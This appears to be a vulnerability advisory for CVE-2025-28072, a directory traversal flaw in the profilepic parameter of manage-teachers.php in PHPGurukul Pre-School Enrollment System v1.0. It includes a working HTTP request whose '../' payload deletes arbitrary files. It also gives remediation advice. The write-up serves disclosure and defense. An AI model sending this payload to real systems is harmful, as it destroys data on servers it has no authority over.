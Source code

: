 # PHPGurukul Pre-School Enrollment System Project directory traversal vulnerability(CVE-2025-28072)

**PHPGurukul  Pre-School Enrollment System Project introduce**
   
   PHPGurukul Pre-School Enrollment System Project is a web-based pre-school enrollment system by PHPGurukul.   

**Vulnerability description**

   There is a security vulnerability in PHPGurukul Pre-School Enrollment System Project v1.0. The vulnerability is caused by a directory traversal vulnerability, which allows remote attackers to traverse directories and delete traversed files.

 PHPGurukul Project address

   
   https://phpgurukul.com/pre-school-enrollment-system-using-php-and-mysql/

   During the code audit, it was found that there was a problem with profilepic in the manage-teachers.php file   
   ![1](https://github.com/baixiaobi/TST/blob/image/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250210100513.png)   
   After analyzing the code, we tried to exploit the vulnerability
   
   **Loophole principle**
   
   Log in to the system backend management system
     
   ![2](https://github.com/baixiaobi/TST/blob/image/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250210100551.png)
      
   Find the vulnerable function in the manage-teachers.php article, manage-teachers-delete
  
   ![3](https://github.com/baixiaobi/TST/blob/image/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250210100037.png)
  
   Intercept the data packet and find the problematic parameter profilepic
   
   ![4](https://github.com/baixiaobi/TST/blob/image/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250210100051.png)

   Transformed into attack payload  

    GET /School/preschool/admin/manage-teachers.php?action=delete&&tid=1&&profilepic=../../../../../../aaa.txt HTTP/1.1
    Host: localhost
    Sec-Fetch-User: ?1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Accept-Encoding: gzip, deflate, br, zstd
    sec-ch-ua-mobile: ?0
    Upgrade-Insecure-Requests: 1
    sec-ch-ua-platform: "Windows"
    Sec-Fetch-Site: same-origin
    Referer: http://localhost/School/preschool/admin/manage-teachers.php
    Accept-Language: zh-CN,zh;q=0.9
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Dest: document
    sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
    Cookie: PHPSESSID=7t2liii8fu23b3cjsll5qi6q8t


   Create aaa.txt test file in the local D drive   
       ![5](https://github.com/baixiaobi/TST/blob/image/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250210100159.png)   

   Send payload, aaa.txt file has been deleted   
   ![6](https://github.com/baixiaobi/TST/blob/image/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250210100443.png)    
   This directory traversal vulnerability can cause the traversed files to be deleted.

 **The affected version**   
 PHPGurukul Pre-School Enrollment System Project v1.0    
 Strictly validate and filter all paths entered by users to ensure that only specified files or directories are allowed to be accessed. Regular expressions can be used to restrict the path format.
 
   
